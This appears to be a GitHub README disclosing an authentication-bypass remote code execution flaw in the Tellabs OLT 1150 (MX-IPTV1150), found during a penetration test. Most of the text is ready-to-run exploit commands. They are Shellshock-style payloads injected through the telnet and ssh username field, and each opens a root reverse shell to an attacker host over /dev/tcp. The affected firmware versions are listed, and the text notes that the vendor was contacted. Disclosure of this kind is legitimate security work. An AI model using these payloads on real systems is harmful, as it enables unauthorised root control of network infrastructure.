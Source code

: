 # tellabs_rce
Tellabs OLT RCE

During a recent penetration test, a vulnerability in the way Tellabs handles incoming authentication/authorization was discovered which allowed us to bypass the authentication methods on the Tellabs OLT 1150 device. It is highly suspected that this vulnerability exists in other devices as well.

[Product]

Vendor: Tellabs

Model: MX-IPTV1150

System Version: FP29.2_015873

Release: ONT709.2.50.12

Date: 180722

Steps to reproduce were rather simple, and based on the older Telnet "ShellShock" vulnerability.

It's known that the following methods all produced a netcat reverse shell as root:
Steps used to exploit:

	telnet [OLTHOSTNAME] -l ";EOF() { :;}; /usr/bin/id & /bin/bash -i >& /dev/tcp/[attacker_ip]/4455 0>&1"
	
The above command asked for the username within the telnet session, and when it timed out, produced the output: "uid=0(emsuser) gid=0(root)" showing that the second portion of the command was not parsed, and the system was vulnerable.

	telnet [OLTHOSTNAME] -l "() { :;}; $((/bin/bash -i >& /dev/tcp/[attacker_ip]/4455 0>&1)) /bin/bash -i >& /dev/tcp/[attacker_ip]/4455 0>&1"
	
The above command was run and produced a reverse 'netcat' style shell to the attacker IP address with a full root bash shell. Again, suspect the second portion of the command was unnecessary, but due to time constraints, was unable to test further.


	ssh [OLTHOSTNAME] -l "''; /bin/bash -i >& /dev/tcp/[attacker_ip]/4455 0>&1"
	
After 3 failed authentication attempts the connect back to the netcat listener occurs and you are dropped in a root shell. (Contributed by Sandia National Laboratory)


Due to customer concerns with the critical nature of the networking infrastructure, further testing beyond the above was not possible, and the customer immediately contacted the vendor to work on a patch.
